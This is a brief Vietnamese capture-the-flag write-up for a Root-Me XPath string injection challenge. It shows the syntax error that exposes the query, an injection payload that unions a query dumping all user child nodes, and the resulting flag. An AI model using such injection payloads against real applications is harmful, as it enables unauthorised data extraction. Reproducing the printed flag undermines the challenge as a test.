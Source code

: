 # [XPath injection - String](https://www.root-me.org/en/Challenges/Web-Server/XPath-injection-String)

## Solutions

Nhập thử `'` vào trang search:

- `Error during search, invalid XPath syntax : //user/username[contains(., ''')]`
- => user input được đưa vào hàm contains

Nếu nhập `')] | //user/*[contains(*,'`:

- => `//user/username[contains(., '')] | //user/*[contains(*,'')]`
- Lấy được tất cả các child node của user, trong đó có flag

Flag: `MB5PRCvfOXiYejMcmNTI`

## References

- <https://www.educba.com/xpath-contains/>
